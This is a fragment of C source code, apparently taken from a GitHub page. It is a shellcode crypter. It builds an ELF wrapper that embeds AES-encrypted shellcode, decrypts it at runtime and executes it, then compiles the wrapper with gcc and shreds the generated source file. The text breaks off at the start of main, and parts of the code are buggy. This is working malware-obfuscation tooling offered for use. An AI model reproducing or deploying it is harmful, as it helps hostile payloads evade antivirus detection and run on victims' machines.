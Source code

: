 ```c
{
	size_t p1 = strstr(str, orig) - str;
	size_t p2o = p1 + strlen(orig);
	size_t p2r = p1 + strlen(rep);
	size_t p3 = strlen(str) - p2o;
	
	char* ret = malloc(strlen(str) - strlen(orig) + strlen(rep));

	memcpy(ret, str, p1);
	memcpy(ret + p1, rep, strlen(rep));
	memcpy(ret + p2r, str + p2o, p3);

	return ret;
}


void makeElf(unsigned char* crypt, unsigned char* decrypt) 
{
	unsigned char skeleton[] = "\
	#include <stdio.h> \n\
	#include <stdlib.h> \n\
	#include <string.h> \n\
	#include <mcrypt.h> \n\
	unsigned char code[] = \"__SHELLCODE__\"; \n\
	unsigned char vector[] = \"__VECTOR__\"; \n\
	int main() { \n\
	MCRYPT m = mcrypt_module_open(\"rijndael-128\", NULL, \"cbc\", NULL); \n\
	int key_len = strlen(vector) - mcrypt_enc_get_iv_size(m); \n\
	unsigned char* key = malloc(key_len); \n\
	unsigned char* iv = malloc(mcrypt_enc_get_iv_size(m)); \n\
	memcpy(key, &vector, key_len); \n\
	memcpy(iv, &vector[key_len], mcrypt_enc_get_iv_size(m)); \n\
	mcrypt_generic_init(m, key, strlen(key), iv); \n\
	mdecrypt_generic(m, code, strlen(code)); \n\
	mcrypt_generic_deinit(m); \n\
	mcrypt_module_close(m); \n\
	int (*ret)() = (int(*)())code; \n\
	ret();}";

	unsigned char* elf = malloc(strlen(skeleton) + strlen(crypt) + strlen(decrypt));

	bzero(elf, strlen(elf));

	elf = strsub(skeleton, "__SHELLCODE__", crypt);
	elf = strsub(elf, "__VECTOR__", decrypt);
	
	FILE *f = fopen("a.c", "w");
	fprintf(f, "%s", elf);
	fclose(f);

	system("gcc a.c -std=c99 -lmcrypt && shred -vzun 3 a.c 2>/dev/null && mv a.out crypted");
}


int main(int argc, char* argv[])
{
	if (argc < 2 || strlen(argv[1]) < 7) {
		printf("[*] Usage: %s <encryption-key-7chars-min>\n", argv[0]);
		return 0;
	}

/* encrypt shellcode */
	unsigned char* key = argv[1];
```